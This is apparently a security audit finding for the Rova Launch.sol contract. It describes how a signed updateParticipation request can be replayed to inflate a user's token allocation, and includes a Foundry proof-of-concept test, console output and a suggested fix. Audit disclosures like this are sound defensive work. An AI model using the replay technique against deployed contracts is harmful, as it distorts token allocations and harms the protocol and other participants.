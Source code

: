 Fun Tiger Troll

Medium

# Launch.updateParticipation() can be replayed to get more allocated tokens than expected

### Summary

Launch.updateParticipation() can be replayed to get more allocated tokens than expected (`_userTokensByLaunchGroup`)

### Root Cause

Users can call `Launch.updateParticipation()` to update their previous participation with a new one, getting adjusted their allocated launchTokens and paying additional or getting refunded currencyTokens. However, the system does not check whether a participation that was signed in the backed to be updated, has really been updated on chain. This allows a user to replay an updateParticipation call to get more allocated launchTokens than expected as after first update the previous Participation's tokenAmount and currencyAmount is set to 0; making the following update calls increase `_userTokensByLaunchGroup` because of the way the function is designed (the function compares the tokenAmount and currencyAmount of new participation with the previous participation, which is set to 0 as explcained).

https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L312C5-L397

### Internal Pre-conditions

1. LaunchGroup with `finalizesAtParticipation` = false is set.
2. Alice makes a participation succesfully.

### External Pre-conditions

No required external pre conditions

### Attack Path

1. Alice gets signed offchain an updateRequest by a SIGNER.
2. Alice call updateParticipation() with the signed parameters. After this the original participation's tokenAmount and currencyAmount are set to 0.
3. As there is no mechanism that prevents from calling updateParticipation(), Alice can repeat it multiple times to get allocated more tokens until she reached the maximum allocation level.

### Impact

Any user that gets an updateRequest signed can repeat it multiple times to get more tokens allocated than expected. Even if they will have to pay the corresponding currencyAmount, this breaks the protocol behaviour as total allocated launchTokens will increase drastically in an artifical way.

### PoC

In LaunchTestBase.sol I updated tokenAmount in _createParticipationRequest():

```solidity
function _createParticipationRequest() internal view returns (ParticipationRequest memory) {
        return ParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            launchParticipationId: testLaunchParticipationId,
            userId: testUserId,
            userAddress: user1,
            tokenAmount: 600 * 10 ** launch.tokenDecimals(),
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });
    }
```

Now add in LaunchUpdateParticipationTest the following unitary test:

```solidity
function test_UpdateParticipationRepeated() public {
        // Prepare update participation request
        UpdateParticipationRequest memory updateRequest = _createUpdateParticipationRequest(600);
        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));

        vm.startPrank(user1);
        uint256 updatedCurrencyAmount =
            _getCurrencyAmount(updateRequest.launchGroupId, updateRequest.currency, updateRequest.tokenAmount);
        currency.approve(address(launch), type(uint256).max);

        // Update participation
        uint allocatedTokensBeforeUpdate = launch.getUserTokensByLaunchGroup(updateRequest.launchGroupId, testUserId);
        console.log("Tokens allocated for user before first updateParticipation is ", allocatedTokensBeforeUpdate);
        launch.updateParticipation(updateRequest, updateSignature);
        uint allocatedTokensAfterFirstUpdate = launch.getUserTokensByLaunchGroup(updateRequest.launchGroupId, testUserId);
        console.log("Tokens allocated for user after first updateParticipation is ", allocatedTokensAfterFirstUpdate);
        launch.updateParticipation(updateRequest, updateSignature);
        launch.updateParticipation(updateRequest, updateSignature);
        uint allocatedTokensAfterAllUpdates = launch.getUserTokensByLaunchGroup(updateRequest.launchGroupId, testUserId);
        console.log("Tokens allocated for user after all updateParticipations is ", allocatedTokensAfterAllUpdates);
    }
```
This is returned by console, in this case after first update nothing changes because it is equal to the original participation.

  Tokens allocated for user before first updateParticipation is  600000000000000000000
  Tokens allocated for user after first updateParticipation is  600000000000000000000
  Tokens allocated for user after all updateParticipations is  1800000000000000000000


### Mitigation

Prevent updateParticipation from being replayed with the same previous and new participations. This can be done cheking the ids of participations or reverting if previous participation has currencyAmount and tokenAmount = 0, as these are the set values when first update happens:

```solidity
function updateParticipation(UpdateParticipationRequest calldata request, bytes calldata signature)
        external
        nonReentrant
        whenNotPaused
        onlyLaunchGroupStatus(request.launchGroupId, LaunchGroupStatus.ACTIVE)
    {
        // Validate request is intended for this launch and unexpired
        _validateRequest(
            request.launchId, request.launchGroupId, request.chainId, request.requestExpiresAt, request.userAddress
        );
        // Validate launch group is open for participation
        LaunchGroupSettings memory settings = launchGroupSettings[request.launchGroupId];
        _validateTimestamp(settings);
        // Validate request signature is from signer role
        _validateRequestSignature(keccak256(abi.encode(request)), signature);
        // Validate payment currency is enabled for launch group
        uint256 tokenPriceBps = _validateCurrency(request.launchGroupId, request.currency);

        ParticipationInfo storage prevInfo = launchGroupParticipations[request.prevLaunchParticipationId];
        // If launch group finalizes at participation, the participation is considered complete and not updatable
        if (settings.finalizesAtParticipation || prevInfo.isFinalized) {
            revert ParticipationUpdatesNotAllowed(request.launchGroupId, request.prevLaunchParticipationId);
        }

+     if (prevInfo.tokenAmount == 0 && prevInfo.currencyAmount == 0) revert();
.
.
.
prevInfo.currencyAmount = 0;
prevInfo.tokenAmount = 0;
.
.
.
```